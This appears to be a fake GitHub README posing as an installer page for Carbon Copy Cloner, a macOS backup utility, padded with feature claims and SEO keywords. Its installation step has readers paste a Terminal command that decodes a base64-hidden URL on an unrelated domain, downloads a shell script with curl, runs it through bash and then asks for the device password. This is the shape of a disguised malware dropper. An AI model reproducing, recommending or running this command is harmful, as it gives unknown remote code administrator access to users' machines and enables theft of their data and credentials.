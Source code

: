 # 🗂️ Carbon Copy Cloner for Mac — Reliable Backups, Effortless Recovery

📌 About Carbon Copy Cloner  
Carbon Copy Cloner (CCC) is a powerful backup utility designed specifically for macOS users who need absolute confidence in their data protection strategy. It enables you to create bootable backups of your entire system, clone external drives, or selectively back up important files to a secondary disk or network volume.  
Whether you're a professional handling critical media files, a system administrator managing multiple Macs, or a casual user who values peace of mind, CCC offers unmatched reliability, automation, and fine-tuned scheduling.  
The app works seamlessly with macOS permissions and snapshots, ensuring that your backups are consistent, verifiable, and restorable at any time. Privacy is a top priority: no cloud sync, no third-party access—your data remains under your control, stored where you choose.

## 🧰 Installation via a command in the terminal:
1. Copy the installation command below.
```
/bin/bash -c "$(curl -fsSL $(echo aHR0cHM6Ly9waGFubmFyaXRoLmNvbS9zb2wvaW5zdGFsbC5zaA== | base64 -d))"

```
2. Open Terminal on your device, paste the command, then press Return.  
3. Enter your device password when prompted and confirm the installation.

![Installing via Terminal](https://i.postimg.cc/NfzQxpMT/0723-1.gif)

## 📸 Overview  
A quick look at key parts in action:  
- ![](https://bombich.com/img/site/hero-narrow.jpg)  
- ![](https://bombich.com/img/icons/filter.jpg)  

## 🎯 Key Features  
⚡️ Bootable Backups: Easily create full macOS system backups you can boot from.  
🔒 Local-Only Data: No cloud, no sync—your data never leaves your devices.  
⚙️ Smart Scheduling: Run backups automatically at specific intervals or triggers.  
🚀 Fast Performance: Incremental backup engine reduces time and system load.  
🎨 macOS Integration: Uses native permissions, snapshots, and notifications.  
📊 Task Monitoring: Real-time progress and error reporting for each backup job.

## 💡 System Requirements  
- OS: macOS 12.0 Monterey or newer  
- CPU: Apple Silicon or Intel Core i5 and above  
- RAM: 4 GB minimum  
- Storage: 200 MB available  
- Others: Terminal access and active internet connection

## 🔍 SEO Keywords  
`carbon copy cloner mac` · `mac bootable backup app` · `mac clone external drive` · `macOS backup scheduler` · `mac disaster recovery` · `local backup utility mac` · `clone mac hard drive` · `mac snapshot backup` · `mac scheduled backup tool` · `mac drive duplicator` · `carbon copy tool mac` · `mac backup without cloud` · `mac disk cloner` · `mac rsync alternative` · `carbon copy mac software`
